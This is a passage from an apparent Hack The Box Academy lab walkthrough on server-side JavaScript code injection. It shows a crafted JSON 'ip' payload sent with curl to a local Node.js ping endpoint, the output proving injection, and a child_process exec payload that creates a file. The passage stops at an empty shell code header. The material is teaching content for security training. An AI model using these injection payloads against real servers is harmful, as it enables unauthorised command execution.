 The payload becomes `"127.0.0.1\"}').ip; console.log('INJECTED');//').ip;"` which students need to test on the local server running on port 21440 with `cURL`, escaping single quotes by URL-encoding them:

Code: shell

```shell
curl http://127.0.0.1:21440/ping -X POST -d 'debug=true&ip={"ip":"127.0.0.1\"}%27).ip; console.log(%27INJECTED%27);//%27).ip;"}'
```

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ curl http://127.0.0.1:21440/ping -X POST -d 'debug=true&ip={"ip":"127.0.0.1\"}%27).ip; console.log(%27INJECTED%27);//%27).ip;"}'

<!DOCTYPE html><head><meta charset="UTF-8"><title>Basic Linux Commands</title><link rel="stylesheet" href="./style.css"></head>
<SNIP>
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.036 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms
```

When checking the server logs, students will find the string "INJECTED" printed, confirming successful code injection:

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ node server.js 
Server is running on http://0.0.0.0:21440

INJECTED
```

To execute commands and write a file to the system instead of printing a string, students can use `touch`:

Code: js

```js
const { exec } = require('child_process'); exec('touch INJECTED');
```

However, students need to escape single quotes by URL-encoding them:

Code: javascript

```javascript
const { exec } = require(%27child_process%27); exec(%27touch INJECTED%27);
```

After sending the new payload with `cURL`, students will notice that a new file named "INJECTED" has been created in the current directory:

Code: shell
